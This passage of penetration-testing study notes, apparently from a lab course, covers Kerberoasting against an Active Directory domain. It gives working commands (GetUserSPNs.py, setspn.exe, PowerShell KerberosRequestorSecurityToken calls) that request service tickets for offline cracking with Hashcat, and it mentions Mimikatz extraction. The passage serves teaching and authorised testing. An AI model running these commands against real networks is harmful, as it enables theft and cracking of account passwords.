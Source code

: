Saving the Ticket o facilitate offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file that can then be run using Hashcat on our attack system or moved to a GPU cracking rig.
        
`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs`
        
### Windows Perspective
        
Kerberoasting - Semi-Manual Method.
        
#### Enumerating SPNs with setspn.exe
        
`setspn.exe -Q */*` running the command you’ll notice many different SPNs returned for the various hosts in the domain.
        
#### Retrieving All Tickets using setspn.exe
        
`setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
        
The above command combines the previous command with `setspn.exe` to request tickets for all accounts with SPNs set.
        
Using ******************Powershell****************** we can request TGS tickets for an account in the shell and load them into memory, once they are loaded into memory we can extract them using **Mimkatz.**
        
#### Targeting a Single User**************
        
```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
        
Before moving on, let's break down the commands above to see what we are doing (which is essentially what is used by [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) when using the default Kerberoasting method):
        
- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
        